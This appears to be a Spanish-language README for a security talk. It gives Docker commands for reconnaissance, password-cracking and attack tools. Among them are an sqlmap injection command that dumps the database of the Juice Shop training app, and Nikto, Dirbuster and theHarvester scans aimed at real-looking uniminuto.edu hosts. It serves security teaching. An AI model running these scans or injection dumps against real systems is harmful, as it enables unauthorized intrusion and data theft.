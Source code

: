 # Killer Whale


 - [Killer Whale](#killer-whale)
   - [Demo](#demo)
     - [NMAP](#NMAP)
     - [The Harvester](#the-harvester)
     - [John the Ripper](#john-the-ripper)
     - [Nikto](#nikto)
     - [Metasploit](#metasploit)
     - [Dirbuster](#dirbuster)
     - [Sqlmap](#sqlmap)


## Killer Whale

Este repo contiene información sobre la charla.

La presentación está disponible en: [Google Drive](http://bit.ly/2mviJZe)

## Demo

### NMAP

```console
docker pull instrumentisto/nmap

docker run --rm -it instrumentisto/nmap -A -T4 scanme.nmap.org --open
```

### The Harvester

```console
docker pull andersballegaard/theharvester  

docker run -it andersballegaard/theharvester -b google -d uniminuto.edu
```

### John the Ripper

```console
docker pull adamoss/john-the-ripper

docker run -it -v `pwd`/example_files/chall7.txt:/crackme.txt adamoss/john-the-ripper /crackme.txt
```

### Nikto

```console
docker pull frapsoft/nikto

docker run frapsoft/nikto -host http://wiwa.uniminuto.edu:8501
```

### Metasploit

```console
docker pull metasploitframework/metasploit-framework

docker run --rm -it metasploitframework/metasploit-framework ./msfconsole
```

### Dirbuster

```console
docker pull hypnza/dirbuster

docker run --rm hypnza/dirbuster -u http://biblioteca.uniminuto.edu/
```

### Sqlmap

```console
docker pull paoloo/sqlmap

docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap -u 'https://juice-shop.herokuapp.com/rest/products/search?q=test' -p 'q' --dbms="sqlite" --technique U --prefix "')) " --level 5 --risk 3 --dump-all --no-cast --no-escape --flush
```

### Kali Linux

```console
docker pull kalilinux/kali-linux-docker

docker run -t -i kalilinux/kali-linux-docker /bin/bash

```




